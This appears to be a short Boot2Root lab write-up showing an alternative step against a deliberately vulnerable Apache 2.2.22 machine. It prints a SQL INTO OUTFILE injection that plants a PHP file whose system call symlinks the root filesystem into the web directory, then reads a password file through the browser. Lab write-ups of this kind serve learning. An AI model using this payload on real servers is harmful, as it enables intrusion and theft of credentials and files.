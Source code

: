 # Boot2Root - A patchy web server

Starting from `Step 4 - Reverse shell`.

## Step 4 - suExec
We check of there are vulnerabilities with the currently used version of Apache (`2.2.22`).
There is an exploit that requires us to create a specific PHP file and load it with the server.

We then create it just as in `writeup1`, but with the `apache.php` file.

```
SELECT '<?php system("ln -sf / test99.php"); symlink("/", "test99.php"); ?>' INTO OUTFILE "/var/www/forum/templates_c/apache.php"
```

Now we open the link `https://<IP>/forum/templates_c/apache.php`, which will create a folder
named `test99.php`. This folder is actually a symlink to `/`.
Opening it will open a file browser to the root of the FS. Now we just have to check `/home/LOOKATME/password`.

And now back to `Step 5 - Sanitize`

## Sources
suExec exploit: https://www.exploit-db.com/exploits/27397